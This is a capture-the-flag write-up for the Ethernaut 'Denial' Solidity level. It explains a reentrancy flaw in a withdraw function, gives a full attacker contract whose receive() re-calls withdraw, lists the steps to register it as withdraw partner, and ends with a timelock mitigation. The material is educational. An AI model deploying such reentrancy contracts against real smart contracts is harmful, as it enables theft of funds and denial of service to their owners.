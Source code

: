 ```yaml
---
title: Level 20 - Denial
slug: level-20
published: 05-21-2023
lastEdited:
imgSrc: /images/ethernaut/ethernaut20.svg
---
```


## Objectives

1. Prevent the owner from calling `withdraw` even when the contract has a positive balance.

## Vulnerabilities

### Reentrancy

The `withdraw` function is vulnerable to **reentrancy** attacks. A **timelock** logic seems to be started
but not implemented completely. We can exploit this fact by making a _hack_ contract become a
withdraw partner.

## Exploit

1. Write and deploy a hacking contract like the following:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface IDenial {
    function setWithdrawPartner(address) external;
    function withdraw() external;
    function contractBalance() external returns(uint);
}

contract DenialHack {
    IDenial target;

    constructor(address payable _targetAddress) {
        target = IDenial(_targetAddress);
    }

    receive() external payable {
        if(address(target).balance > 0){
            target.withdraw();
        } else {}
    }
}
```

2. Call `setWithdrawPartner` with the hacking contract's address as argument.

3. When the owner call `withdraw`, he will not receive any of it's eth.

## Suggested mitigation

1. Completing the timelock logic to one `withdraw` per hour, per day or whatever else increment of time would prevent this issue
   from happening.

## Further reading

- Timelock example. <ExternalLink href={"https://solidity-by-example.org/app/time-lock/"} />
- Reentrancy guard by OpenZeppelin <ExternalLink href={"https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard"} />
